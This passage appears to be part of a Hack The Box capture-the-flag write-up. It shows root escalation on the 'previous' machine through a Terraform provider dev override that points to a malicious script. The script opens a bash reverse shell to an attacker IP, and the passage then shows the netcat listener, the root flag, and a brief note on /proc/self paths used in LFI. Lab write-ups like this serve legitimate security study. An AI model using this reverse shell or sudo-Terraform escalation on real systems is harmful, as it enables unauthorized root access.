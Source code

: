 ```bash

jeremy@previous:~$ cat .terraformrc 
provider_installation {
        dev_overrides {
                "previous.htb/terraform/examples" = "/tmp/.privesc"
        }
        direct {}
}

jeremy@previous:~$ cat /tmp/.privesc/terraform-provider-examples 
#!/bin/bash
sudo /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.28/9000 0>&1'


jeremy@previous:~$ sudo TF_CLI_CONFIG_FILE='/home/jeremy/.terraformrc' /usr/bin/terraform -chdir\=/opt/examples apply

```

```bash

$ nc -lvnp 9000

root@previous:/opt/examples# ls /root
clean
examples
go
root.txt

root@previous:~# cat /root/root.txt
cat /root/root.txt
7be35214095264b2025a9286a368eeb4

```



## LFI + RCE

> The `/proc/self/` directory is a link to the currently running process.
> 
> The `/proc/` filesystem in Linux is a virtual filesystem exposing kernel and process information.
>   * `/proc/self/` is a symbolic shortcut that refers to the currently executing process — typically, in a web context, the PHP-FPM or Apache/Nginx worker process.
>
> /proc/self/environ      → Environment variables  
> /proc/self/fd/0         → stdin (standard input)
> /proc/self/fd/1         → stdout
> /proc/self/fd/2         → stderr
> /proc/self/fd/X         → Any other open file descriptor


---


